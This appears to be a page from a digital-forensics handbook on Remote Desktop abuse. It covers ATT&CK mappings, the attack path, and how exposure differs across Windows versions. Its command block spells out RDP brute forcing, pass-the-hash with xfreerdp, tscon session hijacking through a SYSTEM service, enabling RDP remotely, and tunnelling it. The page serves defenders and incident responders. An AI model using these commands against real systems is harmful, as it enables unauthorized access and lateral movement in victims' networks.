

repository: DFIDwiz-sketch/dfir-handbook · page: adversary/rdp/index.html · generator: mkdocs

---
title: RDP — Remote Desktop Abuse
tags:
  - technique
  - adversary
  - lateral-movement
  - initial-access
---

# RDP — Remote Desktop Abuse

<div class="dfir-meta" markdown>
**MITRE ATT&CK:** T1021.001 (Remote Services: Remote Desktop Protocol) · T1133 (External Remote Services) · T1110 (Brute Force) · T1563.002 (RDP Hijacking) · **Tactic:** Initial Access / Lateral Movement · **Last updated:** 2026-10-07
</div>

!!! abstract "Summary"
    RDP gives a full interactive desktop. Internet-exposed RDP is one of the top **initial access** routes for ransomware (brute-forced or bought credentials), and inside the network it is the operator's favourite **lateral movement** once they have a password — it looks like normal admin work. Two extra tricks: **RDP session hijacking** (`tscon` as SYSTEM takes over a disconnected admin's session with no password) and **Restricted Admin pass-the-hash** (RDP with only an NT hash).

## How the attack works

```mermaid
flowchart LR
    I[Internet 3389 exposed] -->|brute force / stuffing / bought creds| H1[Host A]
    H1 -->|credentials from LSASS| H2[Host B via RDP]
    H2 -->|tscon as SYSTEM| HJ[Hijack disconnected<br/>Domain Admin session]
    H2 -->|mstsc /restrictedadmin + PtH| H3[Host C]
    HJ --> DC[Domain]
```

## Attacker tooling / commands

```text
# Brute force / spray (external)
hydra -L users.txt -P pass.txt rdp://target · crowbar · ncrack · nxc rdp

# Lateral
mstsc /v:host  ·  xfreerdp /u:admin /d:CORP /pth:<NThash> /v:host   (Restricted Admin PtH)

# Session hijack (needs SYSTEM on the host)
query user
sc create hj binpath= "cmd /k tscon 2 /dest:rdp-tcp#5"  &  sc start hj

# Enable RDP on a host remotely
reg add "HKLM\System\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
netsh advfirewall firewall set rule group="remote desktop" new enable=Yes

# Tunnelling RDP through C2 (no 3389 on the wire)
ngrok / chisel / plink -R 3389
```

## Affected Windows versions

| Version | Exposure | Version-specific |
|---|---|---|
| **XP / 2003** | No NLA on the server side; credentials sent after the session is set up | **BlueKeep (CVE-2019-0708)** — pre-auth wormable RCE; MS issued out-of-band XP/2003 patches |
| **Vista / 2008** | NLA available (CredSSP) | BlueKeep affects these too |
| **7 / 2008 R2** | NLA on by default for new configs | **BlueKeep** (7 / 2008 R2 last affected); **DejaBlue** (CVE-2019-1181/1182) |
| **8.1 / 2012 R2** | Restricted Admin mode introduced (also back-ported to 7 / 2008 R2) — no creds left on target, but enables **PtH over RDP** | DejaBlue affected 8.1 / 10 / 2012 R2 – 2019 |
| **10 / 2016+** | Remote Credential Guard (1607+); session hijack via `tscon` as SYSTEM still works | |
| **11 / 2022 / 2025** | Account lockout policy default (10 attempts / 10 min) on new 11 22H2+ installs | Credential reuse & brute force are still the main threat |
